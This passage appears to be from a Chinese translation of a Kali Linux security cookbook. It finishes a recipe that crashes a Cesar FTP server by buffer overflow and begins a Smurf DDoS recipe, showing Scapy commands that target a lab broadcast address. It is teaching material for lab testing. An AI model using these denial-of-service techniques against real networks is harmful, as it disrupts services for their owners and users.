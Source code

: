 通过返回到运行 Cesar 0.99 FTP 服务的 Windows XP 主机，我们可以看到`server.exe`应用程序崩溃了。 要在拒绝服务后恢复操作，必须手动重新启动 Cesar FTP 服务。

### 工作原理

一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。 此秘籍中讨论的特定脚本的工作原理是，在服务或操作系统崩溃的情况下，套接字将不再接受输入，并且脚本将无法完成整个有效载荷注入序列。 如果发生这种情况，脚本需要使用`Ctrl + C`强制关闭。在这种情况下，脚本将返回一个标识，表明后续载荷无法发送，并且服务器可能已崩溃。

## 6.3 Smurf DoS 攻击

smurf 攻击是历史上用于执行分布式拒绝服务（DDoS）放大攻击的最古老的技术之一。 此攻击包括向网络广播地址发送一系列 ICMP 回响请求，带有伪造的源 IP 地址。 当广播此回显请求时，LAN 上的所有主机会同时对收到的每个伪造请求的目标进行回复。 这种技术对现代系统的效率较低，因为大多数系统不会回复 IP 定向的广播流量。

### 准备

要执行 smurf 攻击，您需要有一个 LAN，上面运行多个系统。 提供的示例将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了尝试执行传统的 smurf 攻击，Scapy 可以用于从零开始构建必要的数据包。 为了从 Kali Linux 命令行使用 Scapy，请从终端使用`scapy`命令，如下所示。 为了向广播地址发送 ICMP 请求，我们必须首先构建此请求的层级。 我们将需要构建的第一层是 IP 层：

```
root@KaliLinux:~# scapy Welcome to Scapy (2.2.0) 
>>> i = IP() 
>>> i.display() 
###[ IP ]###  
    version= 4  
    ihl= None
    tos= 0x0
    len= None
    id= 1
    flags=
    frag= 0
    ttl= 64
    proto= ip
    chksum= None
    src= 127.0.0.1
    dst= 127.0.0.1
    \options\ 
>>> i.dst = "172.16.36.255" 
>>> i.display() 
###[ IP ]###
    version= 4
    ihl= None
    tos= 0x0
    len= None
    id= 1
    flags=
    frag= 0
    ttl= 64
    proto= ip
    chksum= None
    src= 172.16.36.224
    dst= 172.16.36.255
    \options\ 
```

